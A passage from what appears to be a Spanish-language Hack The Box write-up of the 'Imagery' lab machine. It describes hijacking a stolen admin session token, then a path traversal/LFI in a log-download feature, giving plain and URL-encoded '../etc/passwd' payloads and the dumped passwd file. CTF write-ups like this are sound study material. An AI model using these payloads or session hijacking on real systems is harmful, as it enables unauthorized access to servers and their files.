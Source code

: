 Tenemos el token de Admin, lo que queda es remplazarlo por la nuestra y secuestrarlo

![](htb-writeup-imagery/imagery19.png)

![](htb-writeup-imagery/imagery20.png)

### LFI (Local File Inclusion)

Este es el Panel de administracion, todos los reportes pasan por aca.

A simple vista logramos visualizar que podemos descargar un `log` del usuario admin y otro del usuario `testuser@imagery.htb`, para ovservar mejor la descarga de ese archivo lo interceptamos con `Burpsuite`

![](htb-writeup-imagery/imagery21.png)

Es un archivo que muestra los logs de inicio de sesion del Administrador, supongo que es lo mismo para el usuario `testuser`.

Lo primero que se me ocurre testear a la hora de ver archivos que se pueden descargar es:

```bash
../../../../../etc/passwd o ..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

```

Los archivos que se descargan de un servidor los toma de alguna carpeta y esto hace que se desencadene un `Path Traversal` o `LFI`, se puede `URLencodear para Bypassear alguna Restriccion`

![](htb-writeup-imagery/imagery22.png)

Tenemos un LFI valido, logramos ver el `/etc/passwd`

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
usbmux:x:100:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:103:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:104:104::/nonexistent:/usr/sbin/nologin
uuidd:x:105:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:106:107::/nonexistent:/usr/sbin/nologin
tss:x:107:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:108:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
web:x:1001:1001::/home/web:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
```